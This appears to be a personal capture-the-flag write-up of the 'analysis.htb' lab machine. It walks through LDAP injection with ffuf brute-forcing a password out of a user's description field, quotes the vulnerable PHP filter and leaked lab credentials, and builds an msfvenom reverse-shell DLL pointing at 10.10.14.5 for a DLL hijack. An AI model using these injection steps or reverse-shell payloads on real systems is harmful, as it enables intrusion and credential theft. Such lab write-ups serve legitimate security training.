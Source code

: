 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings
### Credentials
- ` technician : 97NTtl*4QP96Bv `
- ` jdoe : 7y4Z4^*y9Zzj `
## External
### Enumeration

![](https://i.imgur.com/FAlhLLT.png)
![](https://i.imgur.com/24pFWvD.png)
![](https://i.imgur.com/eQ86jvA.png)
![](https://i.imgur.com/zC7iKNp.png)
![](https://i.imgur.com/JAotDKR.png)
![](https://i.imgur.com/TGlHWOQ.png)
![](https://i.imgur.com/6AAQw9V.png)
![](https://i.imgur.com/KDtjCvN.png)
![](https://i.imgur.com/7IgazPu.png)
- When i fuzz it i saw some reuslt on `*`
	- ![](https://i.imgur.com/bsPJjux.png)
- Funfact the name we got `technician` is a domain user
- ![](https://i.imgur.com/N7omknx.png)
![](https://i.imgur.com/2H8yLXD.png)
![](https://i.imgur.com/uu64Gqh.png)
![](https://i.imgur.com/bvwcadZ.png)
- After i Knew the Site Has `LDAP injection`. You can try som simple checks as the following
```shell
rex.com?name=a*   -> This means anything that starts with a.
	?name=b* ...  -> By this technique You can bruteforce and get all the name.

# On Active DIrectory Users have a default parameter called Description.
	- This means, we can get the description of the users we got from the above technique.

rex.com?name=natan)(description=*)   -> This can give us power to bruteforce as the before for the description.
```
- This Bruteforce for the description is as the follow.
```shell
ffuf -w /opt/seclists/Fuzzing/alphanum-case.txt  -u 'http://internal.analysis.htb/users/list.php?name=technician)(description=FUZZ*' -fs 406

 <SNIP>
 
9                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 485ms]

ffuf -w /opt/seclists/Fuzzing/alphanum-case.txt  -u 'http://internal.analysis.htb/users/list.php?name=technician)(description=9FUZZ*' -fs 406

<SNIP>

7                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 428ms]

ffuf -w /opt/seclists/Fuzzing/alphanum-case.txt  -u 'http://internal.analysis.htb/users/list.php?name=technician)(description=97FUZZ*' -fs 406

N                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 486ms]
```
- Sometimes our LDAP query can stack while we are bruteforcing Because of the character `*` In our Finding Word.
	- `*` is a wildcard, so LDAP will treat  like that . so to bypass that we will use `**` this is treated as `*`. so `*FUZZ*`
	- In this case we can do the `*` between the letters. 
```shell
rexder@HunterMachine ~/C/H/M/analysis> ffuf -w /opt/seclists/Fuzzing/alphanum-case.txt  -u 'http://internal.analysis.htb/users/list.php?name=technician)(description=97NTtl*FUZZ*' -fs 406

<...SNIP...>

4                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 324ms]
```
- Finally, Your fuzzing results will be stack and not responding that means the word is Completed.
	- By this case the completed word is `97NTtl*4QP96Bv`
```shell
rexder@HunterMachine ~/C/H/M/analysis> ffuf -w /opt/seclists/Fuzzing/alphanum-case.txt  -u 'http://internal.analysis.htb/users/list.php?name=technician)(description=97NTtl*4QP96BvFUZZ*' -fs 406
```
>[!abstract] This is how the back End looks
>```php  
>//Get standard users and contacts
>        $search_filter = '(&(objectCategory=person)(objectClass=user)(sAMAccountName='.$_GET['name'].'))';
>```
![](https://i.imgur.com/CIICPMu.png)
### Gaining Access
![](https://i.imgur.com/uWzTnNO.png)
![](https://i.imgur.com/MRRpZzs.png)
## Internal
### Enumeration
```
<?php
 $host = "localhost";
 $username = "db_master";
 $password = '0$TBO7H8s12yh&';
 $database = "employees";
 
$ldap_password = 'N1G6G46G@G!j';
$ldap_username = 'webservice@analysis.htb';
```
![](https://i.imgur.com/aNbCyjN.png)
### Gaining Access
![](https://i.imgur.com/f52HYk6.png)
```shell

ÉÍÍÍÍÍÍÍÍÍÍ¹ Scheduled Applications --Non Microsoft--
È Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries
    (ANALYSIS\Administrateur) run_bctextencoder: C:\Users\jdoe\AppData\Local\Automation\run.bat
    Permissions file: jdoe [AllAccess]
    Permissions folder(DLL Hijacking): jdoe [AllAccess]
    Trigger: At log on of ANALYSIS\jdoe
```
![](https://i.imgur.com/flSaxrP.png)
```shell
*Evil-WinRM* PS C:\Users\jdoe\Documents> cat C:\Users\jdoe\AppData\Local\Automation\run.bat
start "BCEncoder" "C:\Program Files\BCTextEncoder\BCTextEncoder.exe"
```
### Maintaining Access
![](https://i.imgur.com/fa5Tdqv.png)
```shell
rexder@HunterMachine ~/C/H/M/analysis [1]> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f dll -a x64 -o rexde.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll f
```

# Random Notes